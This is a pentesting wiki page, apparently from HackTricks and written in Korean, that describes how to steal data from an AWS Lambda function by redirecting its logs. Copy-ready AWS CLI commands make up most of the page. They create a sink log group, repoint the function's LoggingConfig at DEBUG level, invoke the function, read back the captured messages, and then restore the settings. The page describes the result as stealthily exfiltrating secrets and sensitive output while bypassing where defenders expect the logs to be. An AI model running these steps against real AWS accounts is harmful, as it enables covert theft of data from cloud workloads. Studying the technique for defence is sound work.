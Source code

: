 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

`lambda:UpdateFunctionConfiguration`의 고급 로깅 제어를 악용하여 함수의 로그를 공격자가 선택한 CloudWatch Logs 로그 그룹으로 리디렉션하세요. 이 방법은 코드나 실행 역할을 변경하지 않고도 작동합니다(대부분의 Lambda 역할에는 이미 `logs:CreateLogGroup/CreateLogStream/PutLogEvents`가 `AWSLambdaBasicExecutionRole`을 통해 포함되어 있습니다). 함수가 secrets/요청 본문을 출력하거나 스택 트레이스로 크래시하면 새 로그 그룹에서 이를 수집할 수 있습니다.

## 필수 권한
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (또는 기존 트리거에 의존)
- logs:CreateLogGroup (함수 역할에 있으면 종종 필요 없음)
- logs:FilterLogEvents (이벤트를 읽기 위해)

## 단계
1) sink 로그 그룹 생성
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) 대상 함수의 로그 리디렉션
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
`LastUpdateStatus`가 `Successful`이 될 때까지 기다리세요:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) sink를 호출하고 sink에서 읽기
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## 영향
- 은밀하게 애플리케이션/시스템 로그를 모두 제어하는 로그 그룹으로 리디렉션하여, 로그가 `/aws/lambda/<fn>`에만 도달한다고 예상하는 것을 우회합니다.
- Exfiltrate 함수가 출력하거나 오류에 노출된 민감한 데이터를 탈취합니다.

## 정리
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## 노트
- 로깅 제어는 Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel)의 일부입니다.
- 기본적으로 Lambda는 로그를 `/aws/lambda/<function>`으로 전송하지만, 임의의 로그 그룹 이름을 지정할 수 있습니다; 허용되는 경우 Lambda(또는 실행 역할)가 해당 로그 그룹을 생성합니다.

{{#include ../../../../banners/hacktricks-training.md}}
